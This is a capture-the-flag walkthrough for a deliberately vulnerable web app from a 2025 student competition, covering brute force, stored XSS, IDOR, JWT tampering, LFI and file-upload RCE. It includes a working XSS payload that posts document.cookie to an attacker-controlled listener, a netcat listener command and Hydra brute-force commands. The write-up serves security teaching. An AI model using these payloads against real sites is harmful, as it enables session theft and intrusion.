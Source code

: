 # CTF Web Application Walkthrough

## Overview

This walkthrough provides a step-by-step guide on how to solve all the flags hidden within the vulnerable web application from the [ASI KARIKAS 2025 competition](https://asikarikas.ee/).

---

## Flag 1: Username Enumeration and Password Brute-Force

**Vulnerability Type**: Username Enumeration and Brute Force  
**Flag Location**: Flag is shown after getting access to the only account whose password is brute-forceable.

### Steps:

1. Navigate to /Profile
![alt text](readme_images/1.png)

2. Find out what is the network response to a failed login request
![alt text](readme_images/2.png)

3. Find out the request parameters
![alt text](readme_images/3.png)

4. Download username and password wordlists (or use the ones included in /vulns/wordlists)
5. Install Hydra
6. Set the parameters and run Hydra against the log-in form:
   ```hydra -L usernames.txt -p dummy_password http-post-form "http://127.0.0.1/api/login:username=^USER^&password=^PASS^:F={\"Username does not exist\"}"```
   hydra -L usernames.txt -p dummy_password 127.0.0.1 http-post-form "/api/login:username=^USER^&password=^PASS^:F={\"error\":\"Username does not exist\"}"



1. Navigate to the login page and observe the response when entering invalid usernames. There may be differences in the error message for incorrect usernames vs passwords.
2. Use this to enumerate valid usernames.
3. Once you have a valid username, perform a brute-force attack on the password using a tool like Hydra or Burp Suite Intruder.
4. After logging in successfully, the flag will be accessible on the profile page or in the user dashboard.

---

## Flag 2: Cross-Site Scripting (XSS)

**Vulnerability Type**: Stored XSS  
**Flag Location**: In another user’s session cookies.

### Steps:
1. Create an XSS payload that sends cookies a server you control
   ```<script>
   fetch('http://127.0.0.1:1234', {  // CHANGE THIS TO YOUR IP
      method: 'POST',
      mode: 'no-cors',
      body: document.cookie
   });
   </script>```
   You can find this same exact code in /vulns/xss vuln/stored_xss_vuln.html

2. Install netcat (preferably on a linux instance) and set it to listen mode
   ```nc -lvnp 1234```
   ![alt text](readme_images/7.png)

3. Navigate to /
![alt text](readme_images/4.png)

4. Choose the first offer that has higher traffic than other offer
![alt text](readme_images/5.png)

5. Add the XSS payload as a review
![alt text](readme_images/6.png)

6. Look at your listener and extract the flag along with the cookies
![alt text](readme_images/8.png)


1. Locate a user input field that does not sanitize input properly.
2. Inject a JavaScript payload into the input field (e.g., `<script>alert(document.cookie)</script>`).
3. Trigger the XSS by making another user visit a page where the malicious script is executed.
4. Once the script runs, retrieve the flag from the cookies or a pop-up message.

---

## Flag 3: Client-Side Validation Bypass

**Vulnerability Type**: Client-Side Validation Bypass  
**Flag Location**: /Profile page.

### Steps:
1. Go to the page where you can purchase items (likely through the shop interface).
2. Examine the client-side code (JavaScript) for validation checks (e.g., checking available funds).
3. Modify the client-side code to bypass or adjust the validation (using browser developer tools).
4. Complete the transaction and navigate to your profile (/Profile) to view the flag.

---

## Flag 4: Insecure Direct Object References (IDOR)

**Vulnerability Type**: IDOR  
**Flag Location**: Accessing user account with ID=1.

### Steps:
1. Find a URL or API endpoint where the user ID is exposed (e.g., `/user?id=2`).
2. Change the ID parameter in the URL to `1` (e.g., `/user?id=1`).
3. Access the page and look for a flag displayed in the user’s profile or data.

---

## Flag 5: JWT Token Manipulation

**Vulnerability Type**: JWT Manipulation  
**Flag Location**: /admin page.

### Steps:
1. Analyze the JWT token stored in your session (likely in a cookie or local storage).
2. Decode the token and examine the payload for potential weaknesses.
3. Modify the token (e.g., change the role or permissions) and re-encode it.
4. Send the modified token back to the server and access the admin area (/admin).
5. The flag will be visible in the admin section.

---

## Flag 6: Local File Inclusion (LFI)

**Vulnerability Type**: LFI  
**Flag Location**: C:\Windows\System32\drivers\etc\hosts

### Steps:
1. Look for a poorly sanitized file inclusion endpoint (e.g., `/viewfile?filename=`).
2. Manipulate the `filename` parameter to point to system files (e.g., `../../../etc/hosts`).
3. Access the file and find the flag hidden in the contents.

---

## Flag 7: File Upload Vulnerability (RCE)

**Vulnerability Type**: Remote Code Execution via File Upload  
**Flag Location**: After gaining shell access.

### Steps:
1. Locate the file upload functionality.
2. Upload a reverse shell payload (e.g., PHP, JSP, or Python).
3. Trigger the payload to execute on the server.
4. Gain shell access to the server and escalate privileges.
5. Search for the flag on the server.

---

## Conclusion

Gongratulations! You have sucessfully found all 7 flags!

---

## License

This project is licensed under the GNU General Public License (GPL) Version 3 - see the [LICENSE](LICENSE) file for details.

---

## Acknowledgments

- This project was created ONLY for educational purposes.
- Thanks to ASI KARIKAS for hosting such an interesting competition.

---

## Credits / Authors

- **Developers**: LellerLololol and PixelsJr
- **Team**: [INSERT TEAM NAME SEST ME POLE VEEL OTSUSTANUD]
